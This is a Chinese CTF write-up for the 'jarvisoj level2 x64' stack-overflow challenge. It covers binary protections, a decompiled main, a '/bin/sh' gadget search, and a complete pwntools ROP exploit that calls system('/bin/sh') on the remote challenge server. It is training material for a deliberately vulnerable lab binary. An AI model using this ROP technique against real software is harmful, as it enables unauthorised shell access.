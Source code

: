 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2 x64
date: 2022-3-22 11:40:03
permalink: /pages/2e1547494524d188
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return system("echo 'Hello World!'");
}
```

vulnerable_function及函数表如下

![jarvisoj_level2_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level2_x64_1.png)

Gadget

```shell
ROPgadget --binary level2_x64 --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000600a90 : /bin/sh
```

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数内明显的栈溢出漏洞
   - `plt`表内有`system`
   - 存在`/bin/sh`字符串
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有`system`，有`/bin/sh`，构造`rop`链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
io = remote('node4.buuoj.cn', 27585)
# io = process(pwnfile)
elf = ELF(pwnfile)
system_addr = elf.plt['system']
padding = 0x80+8
bin_sh_addr = 0x600A90
pop_rdi_ret = 0x4006b3
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendline(payload)
io.interactive()
```